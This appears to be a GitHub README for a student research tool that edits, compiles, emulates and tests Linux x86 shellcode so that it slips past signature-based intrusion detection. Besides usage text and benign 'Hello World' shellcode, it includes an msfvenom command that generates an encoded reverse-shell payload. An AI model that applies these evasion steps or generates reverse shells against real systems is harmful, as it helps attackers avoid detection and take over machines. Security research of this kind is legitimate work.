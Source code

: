 # Shellcode Assistant

A useful helper script for hex editing, writing and/or testing **Linux x86 shellcode** to bypass IDS/IPS.

**Shellcode Assistant is designed to be used on Kali Linux Rolling x86**

The tool was developed for a Offensive Technologies research project by students of OS3. We were looking for a comfortable and efficient way of altering existing shellcode. With this tool, the experiments of our research can easily be reproduced.

This script is designed to make the process of altering shellcode to bypass **signature based** detection easier. It takes a raw shellcode file as input and offers various options, including dumping code in hexadecimal or Intel x86 ASM format, compiling code using a C wrapper and executing and checking a raw shellcode file for a specific string. In addition, it can emulate, analyse and generate a graph for x86 shellcode using Libemu. Automatic recompilation, which triggers when the modification time stamp changes, is another useful feature that might save time when raw shellcode is manually modified and saved using a hex editor. **We recommend using the automatic recompilation mode**.

The script also provides an **interactive command line interface**, similar to Metasploit's nasm-shell, for assembling and disassembling instructions. It does this using the Capstone and Keystone libraries.

## Dependencies
* Python 3 (≥ 3.5)
* Capstone
* Keystone
* Libemu
* gcc

## Setup

```
# python3 libraries
pip3 install capstone
pip3 install keystone-engine
pip3 install colorama

# gcc is required for compiling the raw shellcode into an executable
sudo apt install build-essential

# libemu is required for outputting a graph using Libemu's sctest
sudo apt install graphviz
sudo apt install libemu2
```

## Usage

```
=============================================================
                -- Shellcode Assistant v1.0 --
=============================================================

usage: shellcode_assistant.py [-h] -f FILE [-o OFFSET] [-t] [-s STDOUT]
                              [-se STDERR] [-x] [-c] [-e] [-d] [-a] [-A] [-R]
                              [-ob]

== Tool to assist a user in modifiying shellcode ==

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  Enter path to file.
  -o OFFSET, --offset OFFSET
                        Set hexadecimal program offset.
  -t, --test            Run and test compiled executable.
  -s STDOUT, --stdout STDOUT
                        Check STDOUT for a specific string.
  -se STDERR, --stderr STDERR
                        Check STDERR for a specific string.
  -x, --hexdump         Dump hex code.
  -c, --compile         Compile file using C wrapper.
  -e, --emulate         Emulate and analyse shellcode using Libemu.
  -d, --disassemble     Disassemble shellcode.
  -a, --assembler       Start ASM interactive assembler mode.
  -A, --all             Run all functions above.
  -R, --autorecompile   Automatic recompiling and testing upon file
                        modification time change.
  -ob, --objdump        Use Linux objdump instead of Python Capstone library.
```

*The Python Capstone library might truncate code in certain cases. Use --objdump if necessary.*

## Examples

```
root@kali:~/OT-Project# python3 shellcode_assistant.py -f testing.bin -A -s "Hello World" -o 40404040
root@kali:~/OT-Project# python3 shellcode_assistant.py -f testing.bin -R
```

### Demo - Modifying Shikata Ga Nai Encoded 'Hello World' Shellcode

<img title="" src="https://raw.githubusercontent.com/alexander-47u/Shellcode-Assistant/master/demo.gif" width="1000px" height="565" alt="" data-align="center">

### ASM Interactive Assembler / Dissassembler

```
...
0x40404064    2    31 DB               xor    ebx, ebx
0x40404066    2    CD 80               int    0x8
---------------------------------------
Last Modified: Sat May 16 16:48:48 2020
---------------------------------------
asm > ?
x86-instruction | recompile | test | emulate | ls | clear | exit
asm > jmp esp; inc ecx; inc ebx
\xFF\xE4\x41\x43
asm > 0xFFE5
jmp    ebp
asm > \xFF\xE6
jmp    esi
asm > emulate

Shellcode emulated:
Diagram saved as 'testing.bin.dot' & 'testing.bin.png'
---------------------------------------
asm >
```

### Obtaining raw shellcode

#### Method 1 - Compiling ASM and Dumping Code Section to HEX

```
1. Compile ASM Code
nasm -f elf32 helloworld.asm -o helloworld.o

2. Dump object code to hex code
objdump -d ./helloworld.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

3. Save hex shellcode to raw shellcode file using echo
echo -e "\x31\xc0\xb0\x04\x31\xdb\xb3\x01\x31\xd2\x52\x68\x72\x6c\x64\x0a\x68\x6f\x20\x57\x6f\x68\x48\x65\x6c\x6c\x89\xe1\xb2\x0c\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80" > testing.bin
```

#### Method 2 - Using Metasploit's Shellcode Generator

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -f raw -b "\x00" -e x86/shikata_ga_nai -o testing.bin
```
### Demo - Diagram Generated by Libemu

<img title="" src="https://raw.githubusercontent.com/alexander-47u/Shellcode-Assistant/master/demo.png" width="600px" height="484" alt="" data-align="center">

## Authors

Alexander-OS3

Jelle-OS3

## TO-DO

Create x64 version of script

Create Windows versions of script
